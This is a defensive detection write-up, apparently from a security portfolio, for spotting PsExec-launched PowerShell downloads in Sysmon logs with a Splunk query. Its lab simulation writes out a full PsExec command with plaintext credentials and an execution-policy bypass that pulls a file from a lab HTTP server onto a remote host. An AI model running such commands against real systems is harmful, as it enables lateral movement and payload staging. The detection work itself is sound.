

# Detection 03: PsExec PowerShell Payload Retrieval

Detects PsExec-based lateral movement by identifying PowerShell-driven HTTP file retrieval activity executed via the PSEXESVC service.

## Objective

Detect PowerShell-based file download activity executed via PsExec by identifying Invoke-WebRequest usage in process command-line arguments.

## ATT&CK Mapping

- T1059.001 – PowerShell  
- T1105 – Ingress Tool Transfer  
- T1570 – Lateral Tool Transfer  

## Data Sources

- Sysmon  
- Windows Event Logs  
- Splunk  

## Relevant Events

- Sysmon Event ID 1 – Process Creation  

## SPL Query

```spl
index=main sourcetype="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
| rex field=_raw "<Data Name='Image'>(?<Image>[^<]+)</Data>"
| rex field=_raw "<Data Name='CommandLine'>(?<CommandLine>[^<]+)</Data>"
| rex field=_raw "<Data Name='ParentImage'>(?<ParentImage>[^<]+)</Data>"
| rex field=_raw "<Data Name='User'>(?<User>[^<]+)</Data>"
| where like(ParentImage,"%PSEXESVC.exe%")
| where like(Image,"%powershell.exe%")
| where like(CommandLine,"%Invoke-WebRequest%")
| where like(CommandLine,"%http%")
| table _time host Image CommandLine ParentImage User
| sort -_time
```

## Attack Simulation

```
PsExec Remote Execution (PowerShell HTTP File Retrieval)
C:\PSTools\PsExec.exe \\192.168.1.16 -u labuser -p abc123 powershell.exe -nop -ep bypass -c "Invoke-WebRequest http://192.168.1.25:8080/test.txt -OutFile C:\Windows\Temp\test.txt"
```

## Detection Logic

This detection identifies PsExec activity by monitoring PowerShell execution spawned from PSEXESVC.exe with command-line indicators of HTTP-based file retrieval. The use of Invoke-WebRequest suggests payload staging or tool transfer following remote execution.

## Screenshot



## Analysis

Host: WIN-ENDPOINT-01  
User: labuser  
Parent Process: PSEXESVC.exe  
Child Process: powershell.exe  
Command Executed: Invoke-WebRequest http://192.168.1.25:8080/test.txt  

This activity indicates PsExec-based remote execution followed by PowerShell-driven payload retrieval over HTTP. The use of Invoke-WebRequest suggests staging or downloading a file to the target system, which is consistent with lateral movement and post-exploitation behavior.

## False Positives 

- Legitimate PowerShell-based file downloads  
- Software deployment or update mechanisms  

## Tuning Recommendations

- Filter known administrative scripts or automation tools  
- Correlate with parent process (PSEXESVC.exe)  
- Identify unusual external or internal HTTP destinations  

## Severity 

Medium-High
